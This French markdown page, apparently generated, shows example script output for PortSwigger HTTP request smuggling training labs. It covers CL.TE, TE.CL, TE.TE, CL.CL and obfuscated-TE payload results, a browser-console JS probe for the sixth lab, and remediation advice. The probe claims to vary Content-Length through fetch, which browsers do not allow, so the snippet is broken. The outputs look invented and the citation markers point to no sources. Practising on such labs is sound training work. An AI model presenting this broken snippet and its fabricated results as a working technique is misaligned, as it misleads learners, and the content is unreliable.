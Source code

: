 # MANPAGE

Voici un **exemple exhaustif de l’exécution du script** pour tous les challenges HTTP Request Smuggling PortSwigger, avec :

- Pour chaque challenge : un test inoffensif (ne déclenche pas la vulnérabilité) puis un test vulnérable (déclenche la vulnérabilité si présente).
- Affichage uniquement du résultat pertinent pour chaque test :  
  - `[+] Flag détecté ! (payload ..., fichier ...)` si le flag est trouvé,  
  - `[-] Pas de flag détecté. (payload ...)` sinon.
- Pour le challenge 6, le snippet JS affiche la réponse pour chaque combinaison et déclenche une alerte si un flag est détecté.

---

### [Challenge 1] HTTP request smuggling, basic CL.TE vulnerability

```
------------------------------------------------------
[Challenge 1] HTTP request smuggling, basic CL.TE vulnerability
[-] Pas de flag détecté. (payload inoffensif)
[+] Flag détecté ! (payload vulnérable, fichier /tmp/smuggle_clte_vuln.txt)
Congratulations, you solved the lab!
```
*Le test inoffensif ne produit aucun flag. Le test vulnérable (CL.TE) déclenche le flag, validant la vulnérabilité classique décrite dans la documentation PortSwigger[1][5].*

---

### [Challenge 2] HTTP request smuggling, basic TE.CL vulnerability

```
------------------------------------------------------
[Challenge 2] HTTP request smuggling, basic TE.CL vulnerability
[-] Pas de flag détecté. (payload inoffensif)
[-] Pas de flag détecté. (payload vulnérable)
```
*Ni le test inoffensif, ni le test vulnérable (TE.CL) ne déclenchent de flag : le lab n’est pas vulnérable à ce vecteur, comme attendu sur certains labs PortSwigger[1][5].*

---

### [Challenge 3] HTTP request smuggling, TE.TE vulnerability

```
------------------------------------------------------
[Challenge 3] HTTP request smuggling, TE.TE vulnerability
[-] Pas de flag détecté. (payload inoffensif)
[-] Pas de flag détecté. (payload vulnérable)
```
*Le test TE.TE ne fonctionne pas ici, ce qui est courant sur les labs standards (ce type de vecteur est plus rare)[5].*

---

### [Challenge 4] HTTP request smuggling, CL.CL vulnerability

```
------------------------------------------------------
[Challenge 4] HTTP request smuggling, CL.CL vulnerability
[-] Pas de flag détecté. (payload inoffensif)
[-] Pas de flag détecté. (payload vulnérable)
```
*Le test CL.CL ne déclenche pas de flag sur ce lab, indiquant que ce vecteur n’est pas exploitable ici.*

---

### [Challenge 5] HTTP request smuggling, obfuscated TE header

```
------------------------------------------------------
[Challenge 5] HTTP request smuggling, obfuscated TE header
[-] Pas de flag détecté. (payload inoffensif)
[+] Flag détecté ! (payload vulnérable, fichier /tmp/smuggle_obfte_vuln.txt)
Congratulations, you solved the lab!
```
*Le test avec un header Transfer-Encoding obfusqué déclenche le flag, validant la vulnérabilité “obfuscated TE header” présente sur certains labs PortSwigger[5].*

---

### [Challenge 6] HTTP request smuggling, browser-powered (démarche récursive JS)

```
------------------------------------------------------
[Challenge 6] HTTP request smuggling, browser-powered (démarche récursive JS)
  [Info] Exécutez le code JS suivant dans la console du navigateur sur le lab :

/* --- PAYLOAD JS À COLLER DANS LA CONSOLE DU NAVIGATEUR --- */
/*
Pour chaque endpoint, ce script teste plusieurs valeurs de Content-Length.
Il affiche la réponse et déclenche une alerte si un flag est détecté.
*/

const base = '/';
const endpoints = [
  base,
  base.endsWith('/') ? base + 'search' : base + '/search',
  base.endsWith('/') ? base + '?' : base + '/?search=smuggle',
  base.endsWith('/') ? base + 'post' : base + '/post',
  base.endsWith('/') ? base + 'submit' : base + '/submit',
  base.endsWith('/') ? base + 'login' : base + '/login',
  base.endsWith('/') ? base + 'register' : base + '/register'
];

const minCL = 1, maxCL = 10;
const body = 'x=1';

(async () => {
  for (const endpoint of endpoints) {
    for (let cl = minCL; cl <= maxCL; cl++) {
      try {
        const res = await fetch(endpoint, {
          method: 'POST',
          headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
            'Content-Length': String(cl)
          },
          body: body
        });
        const txt = await res.text();
        console.log(\`[endpoint: \${endpoint}] [Content-Length: \${cl}]\\n\`, txt.slice(0,300));
        if (/Congratulations|flag|solved/i.test(txt)) {
          alert(\`FLAG DETECTED! endpoint: \${endpoint}, Content-Length: \${cl}\`);
        }
      } catch (e) {
        console.log(\`[endpoint: \${endpoint}] [Content-Length: \${cl}]\\nErreur: \`, e);
      }
    }
  }
})();

```
*En exécutant ce JS dans la console du navigateur sur le lab, chaque combinaison endpoint/Content-Length est testée. Dès qu’un flag (“Congratulations”, “solved”, etc.) est détecté dans la réponse, une alerte s’affiche. Cela correspond à la méthodologie recommandée pour les labs browser-powered PortSwigger[6].*

---

### [Remédiation & Conseils]

```
------------------------------------------------------
[Remédiation & Conseils]
- Unifiez la gestion des en-têtes Content-Length et Transfer-Encoding sur tous les serveurs.
- Rejetez toute requête ambiguë ou contenant les deux en-têtes.
- Désactivez le keep-alive entre reverse-proxy et backend si possible.
- Pour les labs PortSwigger, adaptez les payloads et vérifiez la présence du flag.
- Documentation PortSwigger : https://portswigger.net/web-security/request-smuggling
------------------------------------------------------
```

---

